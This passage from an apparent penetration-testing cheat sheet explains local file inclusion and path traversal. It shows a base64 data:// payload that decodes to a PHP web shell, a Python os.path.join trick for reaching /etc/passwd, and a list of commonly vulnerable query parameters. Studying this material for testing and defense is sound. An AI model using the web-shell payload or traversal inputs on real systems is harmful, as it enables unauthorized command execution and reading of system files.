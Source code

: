Another example **not using the `php://` protocol** would be:

{% code overflow="wrap" %}
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```
{% endcode %}

## Python Root element

In python in a code like this one:

```python
# file_name is controlled by a user
os.path.join(os.getcwd(), "public", file_name)
```

If the user passes an **absolute path** to **`file_name`**, the **previous path is just removed**:

```python
os.path.join(os.getcwd(), "public", "/etc/passwd")
'/etc/passwd'
```

It is the intended behaviour according to [the docs](https://docs.python.org/3.10/library/os.path.html#os.path.join):

> If a component is an absolute path, all previous components are thrown away and joining continues from the absolute path component.

## Java List Directories

It looks like if you have a Path Traversal in Java and you **ask for a directory** instead of a file, a **listing of the directory is returned**. This won't be happening in other languages (afaik).

## Top 25 parameters

Here’s list of top 25 parameters that could be vulnerable to local file inclusion (LFI) vulnerabilities (from [link](https://twitter.com/trbughunters/status/1279768631845494787)):

```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```
